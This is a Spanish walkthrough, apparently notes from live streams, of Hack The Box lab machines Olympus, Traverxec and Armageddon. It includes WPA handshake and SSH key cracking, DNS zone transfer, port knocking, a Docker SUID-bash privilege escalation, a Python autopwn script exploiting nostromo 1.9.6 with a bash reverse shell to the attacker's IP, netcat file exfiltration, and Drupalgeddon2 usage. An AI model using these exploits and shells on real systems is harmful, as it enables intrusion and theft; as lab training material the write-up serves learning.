
\includegraphics[width=0.9\linewidth]{images/aircrack-airgeddon} \caption{aircrack-ng sobre airgeddon capture}\label{fig:unnamed-chunk-3}
\end{figure}

Se ve un ESSID que se llama \texttt{To\_cl0se\_to\_th3\_Sun} que parrece turbio, y un handshake que significa que alguien a esperado que una victima se connecte
o reconnecte tras un attaque de deauthentificacion y a recuperado el hash de authentificacion.

Analizando la captura con \textbf{tshark} se ve que a sido un attaque de deauthentificacion

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{tshark}\NormalTok{ -r captured.cap }\OperatorTok{2>}\NormalTok{/dev/null}
\end{Highlighting}
\end{Shaded}

o filtrado por deauthentificacion

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{tshark}\NormalTok{ -r captured.cap -Y }\StringTok{"wlan.fc.type_subtype==12"}\NormalTok{ -Tfields -e wlan.da }\OperatorTok{2>}\NormalTok{/dev/null}
\end{Highlighting}
\end{Shaded}

\hypertarget{crackeo-con-aircrack-ng}{%
\subsubsection*{Crackeo con Aircrack-ng}\label{crackeo-con-aircrack-ng}}
\addcontentsline{toc}{subsubsection}{Crackeo con Aircrack-ng}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{aircrack-ng}\NormalTok{ -w /usr/share/wordlists/rockyou.txt captrured.cap}
\end{Highlighting}
\end{Shaded}

Este crack duraria aprox una hora.

Con investigacion S4vi a pillado una palabra flight en un fichero .txt y buscando por el dios griego del vuelo
encontro que este dios seria icarus.

Para ganar tiempo, se crea un diccionario mas pequenito que contiene la palabra \emph{icar}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{grep} \StringTok{"icar"}\NormalTok{ /usr/share/wordlists/rockyou.txt }\OperatorTok{>}\NormalTok{ dictionary.txt}
\end{Highlighting}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{aircrack-ng}\NormalTok{ -w dictionary.txt captured.cap}
\end{Highlighting}
\end{Shaded}

Ya encontramos la contraseña.

\hypertarget{crackeo-con-john}{%
\subsubsection*{Crackeo con John}\label{crackeo-con-john}}
\addcontentsline{toc}{subsubsection}{Crackeo con John}

Extraemos lo que nos interressa del fichero \textbf{captured.cap} en un fichero mas pequenito que se llama Captura.hccap que con la utilidad
\textbf{hccap2john} no permite transformarldo en un hash compatible con \textbf{John}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{aircrack-ng}\NormalTok{ -J Captura captured.cap}
\ExtensionTok{hccap2john}\NormalTok{ Captura.hccap }\OperatorTok{>}\NormalTok{ hash}
\ExtensionTok{john}\NormalTok{ -wordlist=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}

\hypertarget{conneccion-a-la-maquina-victima}{%
\subsection*{Conneccion a la maquina victima}\label{conneccion-a-la-maquina-victima}}
\addcontentsline{toc}{subsection}{Conneccion a la maquina victima}

Ahora que tenemos un usuario potencial y una contraseña, intentamos connectar con ssh al puerto 2222

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ icarus@10.10.10.83}
\end{Highlighting}
\end{Shaded}

Con la contraseña encontrada no nos functionna.
Intentamos con el nombre turbio de esta red inalhambrica como contraseña.

\textbf{Y PA DENTRO}

\hypertarget{investigacion-de-la-maquina-victima}{%
\subsection*{Investigacion de la maquina victima}\label{investigacion-de-la-maquina-victima}}
\addcontentsline{toc}{subsection}{Investigacion de la maquina victima}

Hay un fichero que contiene un nombre de dominio valido \textbf{ctfolympus.htb}

Intentamos poner el nombre del dominio en el \texttt{/etc/hosts} pero la web sigue siendo la misma.

Sabiendo que el puerto 53 esta habierto y teniendo ahora un nombre de dominio valido, podemos
hacer un attacke de transferencia de zona con \textbf{dig}

\hypertarget{attacke-de-transferencia-de-zona-con-dig}{%
\subsubsection*{Attacke de transferencia de zona con dig}\label{attacke-de-transferencia-de-zona-con-dig}}
\addcontentsline{toc}{subsubsection}{Attacke de transferencia de zona con dig}

El tito nos vuelve a decir que es muy importante no confundir la arremienta dig con dick. Dig esta en
la categoria Sciencia y Technologia y la otra en la categoria HotTub ;)

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dig}\NormalTok{ @10.10.10.83 ctfolympus.htb}
\end{Highlighting}
\end{Shaded}

Como \textbf{dig} nos responde, ya podemos ir enumerando cosas

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Enumerar los mail servers

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dig}\NormalTok{ @10.10.10.83 ctfolympus.htb mx}
\end{Highlighting}
\end{Shaded}
\item
  Intentamos un attacke axfr

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dig}\NormalTok{ @10.10.10.83 ctfolympus.htb axfr}
\end{Highlighting}
\end{Shaded}

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/dig-ctfolympus} \caption{dig ctfolympus.htb}\label{fig:unnamed-chunk-4}
   \end{figure}
\end{enumerate}

Se puede ver que hay un usuario y una contraseña potencial en un TXT con una lista de puertos.
La idea aqui seria de hacer un \textbf{Port Knocking}

\hypertarget{port-knocking}{%
\subsection*{Port Knocking}\label{port-knocking}}
\addcontentsline{toc}{subsection}{Port Knocking}

En este caso la idea seria connectarse al puerto 22 (es una supposicion). El problema es que este puerto esta cerrado.
La idea de la technica de \textbf{Port Knocking} es que si el attackante golpea unos puertos en un orden definido, por
iptables se puede exponer o bloquear un puerto.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p3456,8234,62431,22 --open -T5 -v -n 10.10.10.83 -r}
\end{Highlighting}
\end{Shaded}

\begin{quote}
{[}!{]} NOTAS: El argumento \texttt{-r} es para decir a NMAP de scannear los puertos en este mismo orden
\end{quote}

Lanzando el commando multiples veces, NMAP nos reporta ahora quel puerto 22 esta ya habierto.
Lo que se puede hacer es, de seguida despues del \textbf{Port Knocking} con nmap, lanzar un commando
ssh a la maquina.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p3456,8234,62431,22 --open -T5 -v -n 10.10.10.83 -r }\KeywordTok{&&} \FunctionTok{ssh}\NormalTok{ prometheus@10.10.10.83}
\end{Highlighting}
\end{Shaded}

Perfecto se nos pregunta por una contraseña \textbf{Y PA DENTRO}

En este momento ya se puede ver la flag \texttt{user.txt} y Podemos passar a la phase de escalacion de privilegios.

\hypertarget{privilege-escalation}{%
\section*{Privilege Escalation}\label{privilege-escalation}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{enumeracion-del-usuario-en-la-maquina-victima}{%
\subsection*{Enumeracion del usuario en la maquina victima}\label{enumeracion-del-usuario-en-la-maquina-victima}}
\addcontentsline{toc}{subsection}{Enumeracion del usuario en la maquina victima}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\FunctionTok{id}
\end{Highlighting}
\end{Shaded}

Ya es sufficiente aqui porque ya se puede ver quel usuario esta en el grupo Docker.

\hypertarget{escalacion-de-privilegios-con-docker}{%
\subsection*{Escalacion de privilegios con Docker}\label{escalacion-de-privilegios-con-docker}}
\addcontentsline{toc}{subsection}{Escalacion de privilegios con Docker}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Checkear las imagenes Docker existentes

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{docker}\NormalTok{ ps}
\end{Highlighting}
\end{Shaded}
\item
  Utilizar una imagen existente para crear un contenedor y \textbf{mountarle} la raiz del systema en el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{docker}\NormalTok{ run --rm -it -v /:/mnt rodhes bash}
\BuiltInTok{cd}\NormalTok{ /mnt/root/}
\FunctionTok{cat}\NormalTok{ root.txt}
\end{Highlighting}
\end{Shaded}
\item
  Escalar privilegios en la maquina real

  \begin{itemize}
  \item
    en el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /mnt/bin}
\FunctionTok{chmod}\NormalTok{ 4755 bash}
\BuiltInTok{exit}
\end{Highlighting}
\end{Shaded}
  \item
    en la maquina real

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{bash}\NormalTok{ -p}
\FunctionTok{whoami}

\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\end{enumerate}

\hypertarget{traverxec}{%
\chapter*{Traverxec}\label{traverxec}}
\addcontentsline{toc}{chapter}{Traverxec}

\hypertarget{introduccion-1}{%
\section*{Introduccion}\label{introduccion-1}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 23/07/2021 se llama Traverxec.

El replay del live se puede ver en \href{https://www.twitch.tv/videos/1095841567}{Twitch: S4vitaar Traverxec maquina}

\hypertarget{enumeracion-1}{%
\section*{Enumeracion}\label{enumeracion-1}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-1}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-1}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-1}{%
\subsubsection*{Ping}\label{ping-1}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.165}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina linux

\hypertarget{nmap-1}{%
\subsubsection*{Nmap}\label{nmap-1}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.165}
\end{Highlighting}
\end{Shaded}

Va un poquito lento\ldots{}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.10.165 -oG allPorts}
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,80 10.10.10.165 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & conneccion a la maquina & Usuario contraseña\tabularnewline
80 & http & whatweb, http-enum & Checkear la web\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{empezamos-por-el-puerto-80-1}{%
\subsection*{Empezamos por el puerto 80}\label{empezamos-por-el-puerto-80-1}}
\addcontentsline{toc}{subsection}{Empezamos por el puerto 80}

\hypertarget{whatweb-1}{%
\subsubsection*{Whatweb}\label{whatweb-1}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.165}
\end{Highlighting}
\end{Shaded}

\begin{itemize}
\tightlist
\item
  nostromo 1.9.6
\end{itemize}

\hypertarget{checkear-la-cabezera}{%
\subsubsection*{Checkear la cabezera}\label{checkear-la-cabezera}}
\addcontentsline{toc}{subsubsection}{Checkear la cabezera}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET -I http://10.10.10.165}
\end{Highlighting}
\end{Shaded}

\begin{itemize}
\tightlist
\item
  nostromo 1.9.6
\end{itemize}

\hypertarget{browsear-la-web-1}{%
\subsubsection*{Browsear la web}\label{browsear-la-web-1}}
\addcontentsline{toc}{subsubsection}{Browsear la web}

Nada interessante.

\hypertarget{wfuzz-1}{%
\subsubsection*{WFuzz}\label{wfuzz-1}}
\addcontentsline{toc}{subsubsection}{WFuzz}

Como no hay mucho mas que ver, applicaremos \textbf{fuzzing} para descubrir si hay mas rutas.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.233/FUZZ}
\end{Highlighting}
\end{Shaded}

No hay nada, creamos un fichero de extensiones txt, php, html y fuzzeamos otravez.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extensions http://10.10.10.233/FUZZ.FUZ2Z}
\end{Highlighting}
\end{Shaded}

No hay nada.

\hypertarget{vulnerability-assessment-1}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-1}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{searchsploit-1}{%
\subsection*{searchsploit}\label{searchsploit-1}}
\addcontentsline{toc}{subsection}{searchsploit}

Checkeamos si existe un exploit relacionado con \textbf{nostromo 1.9.6}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ nostromo }
\end{Highlighting}
\end{Shaded}

Hay un script en Python que permitiria hacer execucion de commandos. Nos traemos el script en el repertorio de trabajo.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ -m 47837}
\FunctionTok{mv}\NormalTok{ 47837.py nostromo_exploit.py}
\end{Highlighting}
\end{Shaded}

Analizando el script con \texttt{cat}, vemos como se uza el exploit. Intentamos reproduzir los passos antes de crearnos nuestro
proprio script.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En una terminal

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  En otra terminal

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{telnet}\NormalTok{ 10.10.10.165 80}
\ExtensionTok{POST}\NormalTok{ /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0}
\ExtensionTok{Content-Length}\NormalTok{: 1}

\FunctionTok{whoami} \KeywordTok{|} \ExtensionTok{nc}\NormalTok{ 10.10.14.20 443}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Se ve \texttt{www-data} en la primera terminal.

Ya podemos crearnos el script.

\hypertarget{vuln-exploit-gaining-access-1}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-1}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{autopwn.py}{%
\subsection*{Autopwn.py}\label{autopwn.py}}
\addcontentsline{toc}{subsection}{Autopwn.py}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ requests}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ threading}
\ImportTok{import}\NormalTok{ time}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl+C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\CommentTok{# Variables globales}
\NormalTok{main_url }\OperatorTok{=} \StringTok{"http://10.10.10.165/.}\SpecialCharTok{%0d}\StringTok{./.}\SpecialCharTok{%0d}\StringTok{./.}\SpecialCharTok{%0d}\StringTok{./.}\SpecialCharTok{%0d}\StringTok{./bin/sh"}
\NormalTok{lport }\OperatorTok{=} \DecValTok{443}

\KeywordTok{def}\NormalTok{ makeRequest():}

\NormalTok{    data_post }\OperatorTok{=}\NormalTok{ \{}
\NormalTok{        b}\StringTok{'bash -c "bash -i >& /dev/tcp/10.10.14.20/443 0>&1"'}
\NormalTok{    \}}

\NormalTok{    r }\OperatorTok{=}\NormalTok{ requests.post(main_url, data}\OperatorTok{=}\NormalTok{data_post)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}

    \ControlFlowTok{try}\NormalTok{:}
\NormalTok{        threading.Thread(target}\OperatorTok{=}\NormalTok{makeRequest, args}\OperatorTok{=}\NormalTok{()).start()}
    \ControlFlowTok{except} \PreprocessorTok{Exception} \ImportTok{as}\NormalTok{ e:}
\NormalTok{        log.error(}\BuiltInTok{str}\NormalTok{(e))}

\NormalTok{    p1 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Acceso"}\NormalTok{)}
\NormalTok{    p1.status(}\StringTok{"Ganando acceso al sistema"}\NormalTok{)}

\NormalTok{    shell }\OperatorTok{=}\NormalTok{ listen(lport, timeout}\OperatorTok{=}\DecValTok{5}\NormalTok{).wait_for_connection()}

    \ControlFlowTok{if}\NormalTok{ shell.sock }\KeywordTok{is} \VariableTok{None}\NormalTok{:}
\NormalTok{        p1.failure(}\StringTok{"No ha sido posible ganar acceso al sistema"}\NormalTok{)}
\NormalTok{        sys.exit(}\DecValTok{1}\NormalTok{)}
    \ControlFlowTok{else}\NormalTok{:}
\NormalTok{        shell.interactive()}
\end{Highlighting}
\end{Shaded}

Lo ejecutamos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ autopwn.py}
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{www-data}

\ExtensionTok{ifconfig}
\end{Highlighting}
\end{Shaded}

El tito prefiere entablarse una shell normal. Se pone en escucha con \texttt{nc\ -nlvp\ 443} y lanza en la shell creado por el script
\texttt{bash\ -i\ \textgreater{}\&\ /dev/tcp/10.10.14.20/443\ 0\textgreater{}\&1}

\hypertarget{tratamiento-de-la-tty-1}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-1}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{privilege-escalation-1}{%
\section*{Privilege Escalation}\label{privilege-escalation-1}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{enumeracion-del-usuario-en-la-maquina-victima-1}{%
\subsection*{Enumeracion del usuario en la maquina victima}\label{enumeracion-del-usuario-en-la-maquina-victima-1}}
\addcontentsline{toc}{subsection}{Enumeracion del usuario en la maquina victima}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /home}
\CommentTok{#Output}
\ExtensionTok{david}

\FunctionTok{ls}\NormalTok{ /home/david}
\CommentTok{#Output}
\ExtensionTok{Permisson}\NormalTok{ denied}

\FunctionTok{ls}\NormalTok{ -l /home}
\CommentTok{#Output}
\ExtensionTok{drwx--x--x}
\end{Highlighting}
\end{Shaded}

Enumeramos el systema

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /}
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\FunctionTok{find}\NormalTok{ \textbackslash{}-perm -4000 }\OperatorTok{2>}\NormalTok{/dev/null}
\BuiltInTok{cd}\NormalTok{ /var}
\FunctionTok{ls}
\BuiltInTok{cd}\NormalTok{ nostromo}
\BuiltInTok{cd}\NormalTok{ conf}
\FunctionTok{cat}\NormalTok{ nhttpd.conf}
\FunctionTok{cat}\NormalTok{ /var/nostromo/conf/.htpasswd}
\end{Highlighting}
\end{Shaded}

Encontramos el hash del usuario david vamos a copiarlo en la maquina de attackante, y intentamos bruteforcear con \textbf{John}

\hypertarget{john}{%
\subsection*{John}\label{john}}
\addcontentsline{toc}{subsection}{John}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}

Encontramos una contraseña intentamos ponerla aciendo un \texttt{su\ david} y \texttt{su\ root}, pero no va. La conclusion a la que hay que llegar
es que cuando miras el fichero nhttpd.conf, dice que hay un directorio \textbf{public\_www}.

\hypertarget{investigacion-del-public_www}{%
\subsection*{Investigacion del public\_www}\label{investigacion-del-public_www}}
\addcontentsline{toc}{subsection}{Investigacion del public\_www}

Intentamos ver si esta en el directorio \texttt{/home/david/public\_www} y effectivamente. hay un fichero comprimido y nos vamos a transferir
a nuestro equipo de attaquante.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En el equipo de attaquante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443 }\OperatorTok{>}\NormalTok{ comprimido.tgz}
\end{Highlighting}
\end{Shaded}
\item
  En el equipo victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.14.20 443 }\OperatorTok{<}\NormalTok{ backup-ssh-identity-files.tgz}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Descomprimimos el archivo con el commando

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{7z}\NormalTok{ l comprimido.tgz}
\ExtensionTok{7z}\NormalTok{ x comprimido.tgz}
\ExtensionTok{7z}\NormalTok{ l comprimido.tar}
\ExtensionTok{7z}\NormalTok{ x comprimido.tar }
\end{Highlighting}
\end{Shaded}

Hay la clave privado del usuario david pero esta protegida por contraseña. La tenemos que romper.

\hypertarget{ssh2john}{%
\subsection*{ssh2john}\label{ssh2john}}
\addcontentsline{toc}{subsection}{ssh2john}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{ssh2john.py}\NormalTok{ id_rsa }\OperatorTok{>}\NormalTok{ hash}
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}

La contraseña de la id\_rsa a sido crackeada y ya nos podemos connectar con ssh

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ -i id_rsa david@10.10.10.165 }
\end{Highlighting}
\end{Shaded}

\hypertarget{escalada-de-privilegio-para-root}{%
\subsection*{Escalada de privilegio para root}\label{escalada-de-privilegio-para-root}}
\addcontentsline{toc}{subsection}{Escalada de privilegio para root}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -l}
\CommentTok{#Output}
\ExtensionTok{bin}

\BuiltInTok{cd}\NormalTok{ bin/}
\FunctionTok{cat}\NormalTok{ server-stats.sh}
\end{Highlighting}
\end{Shaded}

Vemos en este fichero que sudo puede executar \textbf{journalctl}

Vamos a la pagina de \href{gtfobins.github.io}{gtfobins} y buscamos por jounalctl

El \textbf{gtfobins} dice que hay que lanzar jounalctl con sudo y en otra linea poner \texttt{!/bin/sh}

\begin{quote}
{[}!{]} NOTA: cuando pone ! en otra linea quiere decir que hay que ejecutarlo en modo less. O sea hay que reducir la terminal para que se pueda introducir un nuevo commando. En este caso !/bin/sh
\end{quote}

Ya estamos root y seguimos mas hack que nunca.

\hypertarget{armageddon}{%
\chapter*{Armageddon}\label{armageddon}}
\addcontentsline{toc}{chapter}{Armageddon}

\hypertarget{introduccion-2}{%
\section*{Introduccion}\label{introduccion-2}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 24/07/2021 se llama Armageddon.

El replay del live se puede ver en \href{https://www.twitch.tv/videos/1096891939}{Twitch: S4vitaar Olympus maquina}

\hypertarget{enumeracion-2}{%
\section*{Enumeracion}\label{enumeracion-2}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-2}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-2}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-2}{%
\subsubsection*{Ping}\label{ping-2}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.233}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina linux

\hypertarget{nmap-2}{%
\subsubsection*{Nmap}\label{nmap-2}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.233 -oG allPorts}
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,80 10.10.10.233 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{itemize}
\tightlist
\item
  Drupal 7
\end{itemize}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & Accesso directo & usuario y contraseña\tabularnewline
80 & http & Drupal-armageddon (drupalgeddon2) & Checkear el exploit\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{browsear-la-web-2}{%
\subsubsection*{Browsear la web}\label{browsear-la-web-2}}
\addcontentsline{toc}{subsubsection}{Browsear la web}

Nada interessante.

\hypertarget{vulnerability-assessment-2}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-2}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{druppalgeddon}{%
\subsection*{Druppalgeddon}\label{druppalgeddon}}
\addcontentsline{toc}{subsection}{Druppalgeddon}

\textbf{Druppalgeddon2} es un exploit creado por Hans Topo y g0tmi1k escrito en ruby que approvecha de vulnerabilidades
de drupal y que directamente nos daria una shell.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/dreadlocked/Drupalgeddon2}
\BuiltInTok{cd}\NormalTok{ Drupalgeddon2}
\FunctionTok{cat}\NormalTok{ drupalgeddon2.rb}
\ExtensionTok{ruby}\NormalTok{ drupalgeddon2.rb}
\end{Highlighting}
\end{Shaded}

\hypertarget{vuln-exploit-gaining-access-2}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-2}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{druppalgeddon-1}{%
\subsection*{Druppalgeddon}\label{druppalgeddon-1}}
\addcontentsline{toc}{subsection}{Druppalgeddon}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{ruby}\NormalTok{ druppalgeddon2.rb 10.10.10.233}
\FunctionTok{whoami}
\CommentTok{#Output}
\OperatorTok{>} \ExtensionTok{apache}
\ExtensionTok{ifconfig}
